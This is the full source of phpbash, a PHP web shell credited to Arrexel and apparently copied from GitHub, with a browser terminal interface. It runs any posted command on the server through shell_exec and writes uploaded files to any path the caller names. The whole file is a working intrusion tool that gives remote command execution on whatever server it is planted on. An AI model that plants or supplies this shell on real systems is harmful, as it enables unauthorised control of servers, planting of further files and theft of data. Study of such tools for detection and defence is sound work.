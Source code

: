 <?php
/* phpbash by Alexander Reid (Arrexel) */
/* taken from https://github.com/Arrexel/phpbash/blob/master/phpbash.php */
if (ISSET($_POST['cmd'])) {
    $output = preg_split('/[\n]/', shell_exec($_POST['cmd']." 2>&1"));
    foreach ($output as $line) {
        echo htmlentities($line, ENT_QUOTES | ENT_HTML5, 'UTF-8') . "<br>";
    }
    die(); 
} else if (!empty($_FILES['file']['tmp_name']) && !empty($_POST['path'])) {
    $filename = $_FILES["file"]["name"];
    $path = $_POST['path'];
    if ($path != "/") {
        $path .= "/";
    } 
    if (move_uploaded_file($_FILES["file"]["tmp_name"], $path.$filename)) {
        echo htmlentities($filename) . " successfully uploaded to " . htmlentities($path);
    } else {
        echo "Error uploading " . htmlentities($filename);
    }
    die();
}
?>

<html>
    <head>
        <title></title>
        <style>
            html, body {
                max-width: 100%;
            }
        
            body {
                width: 100%;
                height: 100%;
                margin: 0;
                background: #000;
            }
            
            body, .inputtext {
                font-family: "Lucida Console", "Lucida Sans Typewriter", monaco, "Bitstream Vera Sans Mono", monospace;
                font-size: 14px;
                font-style: normal;
                font-variant: normal;
                font-weight: 400;
                line-height: 20px;
                overflow: hidden;
            }
        
            .console {
                width: 100%;
                height: 100%;
                margin: auto;
                position: absolute;
                color: #fff;
            }
            
            .output {
                width: auto;
                height: auto;
                position: absolute;
                overflow-y: scroll;
                top: 0;
                bottom: 30px;
                left: 5px;
                right: 0;
                line-height: 20px;
            }
                                 
            .input form {
                position: relative;
                margin-bottom: 0px;
            }
                     
            .username {
                height: 30px;
                width: auto;
                padding-left: 5px;
                line-height: 30px;
                float: left;
            }

            .input {
                border-top: 1px solid #333333;
                width: 100%;
                height: 30px;
                position: absolute;
                bottom: 0;
            }

            .inputtext {
                width: auto;
                height: 30px;
                bottom: 0px;
                margin-bottom: 0px;
                background: #000;
                border: 0;
                float: left;
                padding-left: 8px;
                color: #fff;
            }
            
            .inputtext:focus {
                outline: none;
            }

            ::-webkit-scrollbar {
                width: 12px;
            }

            ::-webkit-scrollbar-track {
                background: #101010;
            }

            ::-webkit-scrollbar-thumb {
                background: #303030; 
            }
        </style>
    </head>
    <body>
        <div class="console">
            <div class="output" id="output"></div>
            <div class="input" id="input">
                <form id="form" method="GET" onSubmit="sendCommand()">
                    <div class="username" id="username"></div>
                    <input class="inputtext" id="inputtext" type="text" name="cmd" autocomplete="off" autofocus>
                </form>
            </div>
        </div>
        <form id="upload" method="POST" style="display: none;">
            <input type="file" name="file" id="filebrowser" onchange='uploadFile()' />
        </form>
        <script type="text/javascript">
            var username = "";
            var hostname = "";
            var currentDir = "";
            var previousDir = "";
            var defaultDir = "";
            var commandHistory = [];
            var currentCommand = 0;
            var inputTextElement = document.getElementById('inputtext');
            var inputElement = document.getElementById("input");
            var outputElement = document.getElementById("output");
            var usernameElement = document.getElementById("username");
            var uploadFormElement = document.getElementById("upload");
            var fileBrowserElement = document.getElementById("filebrowser");
            getShellInfo();
            
            function getShellInfo() {
                var request = new XMLHttpRequest();
                
                request.onreadystatechange = function() {
                    if (request.readyState == XMLHttpRequest.DONE) {
                        var parsedResponse = request.responseText.split("<br>");
                        username = parsedResponse[0];
                        hostname = parsedResponse[1];
                        currentDir =  parsedResponse[2].replace(new RegExp("&sol;", "g"), "/");
                        defaultDir = currentDir;
                        usernameElement.innerHTML = "<div style='color: #ff0000; display: inline;'>"+username+"@"+hostname+"</div>:"+currentDir+"#";
                        updateInputWidth();
                    }
                };

                request.open("POST", "", true);
                request.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
                request.send("cmd=whoami; hostname; pwd");
            }
                        
            function sendCommand() {
                var request = new XMLHttpRequest();
                var command = inputTextElement.value;
                var originalCommand = command;
                var originalDir = currentDir;
                var cd = false;
                
                commandHistory.push(originalCommand);
                switchCommand(commandHistory.length);
                inputTextElement.value = "";

                var parsedCommand = command.split(" ");
                
                if (parsedCommand[0] == "cd") {
                    cd = true;
                    if (parsedCommand.length == 1) {
                        command = "cd "+defaultDir+"; pwd";
                    } else if (parsedCommand[1] == "-") {
                        command = "cd "+previousDir+"; pwd";
                    } else {
                        command = "cd "+currentDir+"; "+command+"; pwd";
                    }
                    
                } else if (parsedCommand[0] == "clear") {
                    outputElement.innerHTML = "";
                    return false;
                } else if (parsedCommand[0] == "upload") {
                    fileBrowserElement.click();
                    return false;
                } else {
                    command = "cd "+currentDir+"; " + command;
                }
                
                request.onreadystatechange = function() {
                    if (request.readyState == XMLHttpRequest.DONE) {
                        if (cd) {
                            var parsedResponse = request.responseText.split("<br>");
                            previousDir = currentDir;
                            currentDir = parsedResponse[0].replace(new RegExp("&sol;", "g"), "/");
                            outputElement.innerHTML += "<div style='color:#ff0000; float: left;'>"+username+"@"+hostname+"</div><div style='float: left;'>"+":"+originalDir+"# "+originalCommand+"</div><br>";
                            usernameElement.innerHTML = "<div style='color: #ff0000; display: inline;'>"+username+"@"+hostname+"</div>:"+currentDir+"#";
                        } else {
                            outputElement.innerHTML += "<div style='color:#ff0000; float: left;'>"+username+"@"+hostname+"</div><div style='float: left;'>"+":"+currentDir+"# "+originalCommand+"</div><br>" + request.responseText.replace(new RegExp("<br><br>$"), "<br>");
                            outputElement.scrollTop = outputElement.scrollHeight;
                        } 
                        updateInputWidth();
                    }
                };

                request.open("POST", "", true);
                request.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
                request.send("cmd="+encodeURIComponent(command));
                return false;
            }
            
            function uploadFile() {
                var formData = new FormData();
                formData.append('file', fileBrowserElement.files[0], fileBrowserElement.files[0].name);
                formData.append('path', currentDir);
                
                var request = new XMLHttpRequest();
                
                request.onreadystatechange = function() {
                    if (request.readyState == XMLHttpRequest.DONE) {
                        outputElement.innerHTML += request.responseText+"<br>";
                    }
                };

                request.open("POST", "", true);
                request.send(formData);
                outputElement.innerHTML += "<div style='color:#ff0000; float: left;'>"+username+"@"+hostname+"</div><div style='float: left;'>"+":"+currentDir+"# Uploading "+fileBrowserElement.files[0].name+"...</div><br>";
            }
            
            function updateInputWidth() {
                inputTextElement.style.width = inputElement.clientWidth - usernameElement.clientWidth - 15;
            }
            
            document.onkeydown = checkForArrowKeys;

            function checkForArrowKeys(e) {
                e = e || window.event;

                if (e.keyCode == '38') {
                    previousCommand();
                } else if (e.keyCode == '40') {
                    nextCommand();
                }
            }
            
            function previousCommand() {
                if (currentCommand != 0) {
                    switchCommand(currentCommand-1);
                }
            }
            
            function nextCommand() {
                if (currentCommand != commandHistory.length) {
                    switchCommand(currentCommand+1);
                }
            }
            
            function switchCommand(newCommand) {
                currentCommand = newCommand;

                if (currentCommand == commandHistory.length) {
                    inputTextElement.value = "";
                } else {
                    inputTextElement.value = commandHistory[currentCommand];
                    setTimeout(function(){ inputTextElement.selectionStart = inputTextElement.selectionEnd = 10000; }, 0);
                }
            }
            
            document.getElementById("form").addEventListener("submit", function(event){
                event.preventDefault()
            });
        </script>
    </body>
</html> 

